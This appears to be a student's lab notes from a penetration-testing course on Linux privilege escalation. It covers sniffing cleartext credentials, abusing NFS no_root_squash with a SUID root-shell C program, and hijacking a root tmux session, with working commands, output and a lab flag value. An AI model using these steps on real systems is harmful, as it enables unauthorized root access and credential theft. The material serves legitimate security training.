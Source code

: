 # Miscellaneous Techniques

## Passive Traffic Capture

* &#x20;If `tcpdump` is installed, low priv users may capture credentials in cleartext over the network.&#x20;
* [net-creds](https://github.com/DanMcInerney/net-creds) and [PCredz](https://github.com/lgandx/PCredz) can be used to examine data being passed on the wire.
  * Resulting in capturing sensitive information such as credit card numbers and SNMP community strings.&#x20;
  * also possible to capture Net-NTLMv2, SMBv2, or Kerberos hashes, which could then be brute-forced.&#x20;
* Cleartext protocols such as HTTP, FTP, POP, IMAP, telnet, or SMTP may contain credentials that could be reused to escalate privileges on the host.

## Weak NFS Privileges

&#x20;`showmount -e` lists the NFS server's export list (or the access control list for filesystems) that NFS clients.

```bash
showmount -e 10.129.2.12

Export list for 10.129.2.12:
/tmp             *
/var/nfs/general *
```

When an NFS volume is created, various options can be set:

<table><thead><tr><th width="196">Option</th><th>Description</th></tr></thead><tbody><tr><td><code>root_squash</code></td><td>If the root user is used to access NFS shares, it will be changed to the <code>nfsnobody</code> user, which is an unprivileged account. Any files created and uploaded by the root user will be owned by the <code>nfsnobody</code> user, which prevents an attacker from uploading binaries with the SUID bit set.</td></tr><tr><td><code>no_root_squash</code></td><td>Remote users connecting to the share as the local root user will be able to create files on the NFS server as the root user. This would allow for the creation of malicious scripts/programs with the SUID bit set.</td></tr></tbody></table>

```bash
htb@NIX02:~$ cat /etc/exports

# /etc/exports: the access control list for filesystems which may be exported
#		to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/var/nfs/general *(rw,no_root_squash)
/tmp *(rw,no_root_squash)
```

For example, we can create a SETUID binary that executes `/bin/sh` using our local root user. We can then mount the `/tmp` directory locally, copy the root-owned binary over to the NFS server, and set the SUID bit.

Create a simple binary, mount the directory locally, copy it, and set the necessary permissions.

```shell-session
htb@NIX02:~$ cat shell.c 

#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
  setuid(0); setgid(0); system("/bin/bash");
}
```

```shell-session
htb@NIX02:/tmp$ gcc shell.c -o shell
```

```shell-session
root@Pwnbox:~$ sudo mount -t nfs 10.129.2.12:/tmp /mnt
root@Pwnbox:~$ cp shell /mnt
root@Pwnbox:~$ chmod u+s /mnt/shell
```

When we switch back to the host's low privileged session, we can execute the binary and obtain a root shell.

```shell-session
htb@NIX02:/tmp$  ls -la

total 68
drwxrwxrwt 10 root  root   4096 Sep  1 06:15 .
drwxr-xr-x 24 root  root   4096 Aug 31 02:24 ..
drwxrwxrwt  2 root  root   4096 Sep  1 05:35 .font-unix
drwxrwxrwt  2 root  root   4096 Sep  1 05:35 .ICE-unix
-rwsr-xr-x  1 root  root  16712 Sep  1 06:15 shell
<SNIP>
```

```shell-session
htb@NIX02:/tmp$ ./shell
root@NIX02:/tmp# id

uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare),1000(htb)
```

## Hijacking Tmux Sessions

&#x20;When not working in a `tmux` window, we can detach from the session, still leaving it active (i.e., running an `nmap` scan). For many reasons, a user may leave a `tmux` process running as a privileged user, such as root set up with weak permissions, and can be hijacked. This may be done with the following commands to create a new shared session and modify the ownership.

```shell-session
htb@NIX02:~$ tmux -S /shareds new -s debugsess
htb@NIX02:~$ chown root:devs /shareds
```

If we can compromise a user in the `dev` group, we can attach to this session and gain root access.

Check for any running `tmux` processes.

```shell-session
htb@NIX02:~$  ps aux | grep tmux

root      4806  0.0  0.1  29416  3204 ?        Ss   06:27   0:00 tmux -S /shareds new -s debugsess
```

Confirm permissions.

```shell-session
htb@NIX02:~$ ls -la /shareds 

srw-rw---- 1 root devs 0 Sep  1 06:27 /shareds
```

Review our group membership.

```shell-session
htb@NIX02:~$ id

uid=1000(htb) gid=1000(htb) groups=1000(htb),1011(devs)
```

Finally, attach to the `tmux` session and confirm root privileges.

```shell-session
htb@NIX02:~$ tmux -S /shareds

id

uid=0(root) gid=0(root) groups=0(root)
```

## Assessment

Review the NFS server's export list and find a directory holding a flag.

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption><p>fc8c065b9384beaa162afe436a694acf</p></figcaption></figure>

Tried every way to get root using the c code but no luck not sure what went wrong, the code could be executed and the new shell session was spawned everytime but just didn't spawned as root 😢
